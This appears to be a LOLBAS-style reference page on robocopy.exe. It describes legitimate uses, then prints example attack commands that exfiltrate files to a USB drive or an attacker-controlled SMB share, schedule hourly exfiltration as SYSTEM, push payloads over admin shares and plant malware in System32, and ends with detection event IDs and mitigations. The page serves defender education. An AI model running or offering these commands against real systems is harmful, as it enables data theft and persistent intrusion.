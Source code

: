 # robocopy.exe
## What is it?
*```robocopy.exe``` (Robust File Copy) is a **built-in Windows command-line utility** designed for fast and resilient file copying.*
*Unlike traditional ```copy``` or ```xcopy```, it supports **advanced options**, such as:*

- **Copying files while maintaining timestamps & attributes**
- **Mirroring entire directories (backup replication)**
- **Copying files even when interrupted**

*Because it's a **trusted**, **built-in Windows binary**, security tools often **overlook its misuse**.*

## Legitimate Usage
- **Backup & Sync Files** → Copy files while preserving attributes (```/MIR```, ```/COPYALL```)
- **Network File Transfers** → Move data between local and remote systems (```/E```, ```/ZB```)
- **Fast Data Migration** → Copy large datasets efficiently (```/MT```)
- **Automated File Management** → Use in scripts for scheduled backups

## How to abuse it
- **File Transfer & Exfiltration** → Copy sensitive data for theft
- **Bypassing Security Controls** → Uses a trusted Microsoft binary (LOLBas)
- **Persistence via Scheduled Tasks** → Automate data theft on a schedule
- **Privilege Escalation & Lateral Movement** → Copy files over SMB to evade detection

## Example attacks
### 1. Data Exfiltration (Stealthy File Copying)
*Attackers can use ```robocopy.exe``` to **steal files** from a system and move them to an external drive or network share.*
**Copy All Files to an External USB Drive**
```
robocopy C:\SensitiveData E:\Backup /E /ZB /COPYALL /R:0 /W:0 /NDL /NFL /NP
```
**Effect:**
- ```/E``` → Copy all files and subdirectories
- ```/ZB``` → Use restartable mode (bypasses some locked files)
- ```/COPYALL``` → Copy all attributes (timestamps, ACLs, etc.)
- ```/NDL /NFL /NP``` → Avoid logging details to stay stealthy

### 2. Exfiltration Over a Network Share
*Attackers may copy data to a remote SMB share, bypassing detection.*
**Transfer Files Over SMB to an Attacker-Controlled Share**
```
robocopy C:\SensitiveData \\192.168.1.100\share /E /MIR /LOG+:C:\Windows\Temp\log.txt
```
**Effect:**
- *Mirrors the folder to ```\\192.168.1.100\share```*
- *Logs activity to ```log.txt``` for stealth*

### 3. Persistence via Scheduled Tasks
*Attackers can use robocopy.exe to schedule periodic data exfiltration.*
**Set Up a Scheduled Task to Copy Data Every Hour**
```
schtasks /create /tn "BackupJob" /tr "robocopy C:\SensitiveData \\192.168.1.100\backup /E" /sc hourly /ru SYSTEM
```
*Runs every hour under ```SYSTEM```, ensuring stealth and persistence*

### 4. Lateral Movement via SMB & Admin Shares
*Using ```robocopy.exe```, an attacker with admin credentials can copy malware or tools across systems via SMB.*
**Push Malware to Another System's Admin Share**
```
robocopy payloads \\192.168.1.50\C$\Windows\Temp /E
```
*Copies all files in ```payloads``` to the ```C$``` share of ```192.168.1.50```*

### 5. Bypassing File Execution Restrictions
*Attackers can use ```robocopy.exe``` to **bypass AppLocker or Software Restriction Policies (SRP)** by copying files into a trusted directory (e.g., ```C:\Windows\System32```).*
**Copy Malware to a Trusted Directory**
```
robocopy C:\MalwareFolder C:\Windows\System32 /E /COPYALL
```
*Places malware in a **whitelisted directory**, bypassing security controls*

# Detection & Mitigation
## Detection Methods
**Monitor Large File Transfers**
- **Event ID 4663 (File Access)** → Detect bulk file movements
- **Look for ```robocopy.exe``` writing to USB devices (E:, F:, etc.)**

**Detect Suspicious Network Activity**
- **Event ID 5140 (SMB Connection)** → Monitor outbound file transfers
- **Look for unauthorized SMB access (e.g., copying files to external shares)**

**Scheduled Task Creation**
- **Event ID 4698 (Scheduled Task Created)** → Detect persistence attempts

## Mitigation Strategies
- **Restrict External Drive Access** → Block unauthorized USB file transfers.
- **Use Application Control (AppLocker, WDAC)** → Prevent unauthorized ```robocopy.exe``` execution.
- **Monitor File Access Logs** → Detect unusual file transfers.
- **Disable Unused Admin Shares** → Reduce SMB attack surface.

